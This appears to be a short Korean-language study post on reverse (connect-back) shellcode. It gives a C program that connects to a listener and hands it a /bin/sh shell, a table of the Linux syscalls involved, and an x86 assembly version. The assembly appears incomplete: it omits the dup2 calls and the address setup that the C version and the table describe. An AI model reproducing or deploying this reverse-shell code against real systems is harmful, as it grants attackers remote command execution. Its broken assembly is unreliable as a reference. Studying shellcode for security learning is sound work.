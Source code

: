 ```yaml
---
title: Reverse shellcode (Connect-Back shellcode)
date: 2019-01-12 15:00:53
categories:
- Shellcode Exploit
- Reverse shellcode
tags:
- Reverse shellcode
- Connect-Back shellcode
---
```


공격자에게 연결 요청하는 shellcode



```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
 
int main(void)
{
        int i, server_sockfd;
        socklen_t socklen;
        struct sockaddr_in server_addr; // 서버 정보 구조체
 
        char *argv[] = { "/bin/sh", NULL};
        server_addr.sin_family = AF_INET; // 주소 형식
        server_addr.sin_port = htons(2345); // port
        server_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // address
        // socket fd 생성
        server_sockfd = socket( AF_INET, SOCK_STREAM, 0 );
    	// 서버에 접속
        connect(server_sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
 		// socket 함수에 의해 생성된 표준 스트립 fd 복제(링크)
        for(i = 0; i <= 2; i++)
                dup2(server_sockfd, i);
 		// shell 실행
        execve( "/bin/sh", argv, NULL );
}
```



| function | sysnum(eax) | subcallnum(ebx) | args(ecx)                            | edx  |
| -------- | ----------- | --------------- | ------------------------------------ | ---- |
| socket   | 102 (0x66)  | 1               | AF_INET = 2, SOCKET_STREAM = 1, 0    | NULL |
| connect  | 102 (0x66)  | 3               | sockfd, sockaddr, len(sockaddr) = 16 |      |
| dup2     | 63 (0x3f)   | sockfd          | fd=0,1,2                             |      |
| execve   | 11          | "/bin/sh"       | {"/bin/sh", NULL}                    | NULL |



```asm
mov al, 0x66
xor ebx, ebx
cdq
inc ebx
push edx
push ebx
push 0x2
mov ecx, esp
int 0x80

mov al, 0x66
push ebp
push di
inc ebx
push bx
mov ecx, esp
push 0x10
push ecx
push edx
mov ecx, esp
inc ebx
int 0x80

push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov eax, edx
mov al, 0xb
int 0x80
```



#### reference

​	https://www.lazenca.net/display/TEC/04.Reverse+Shellcode

​	https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html

​	http://d4m0n.tistory.com/93






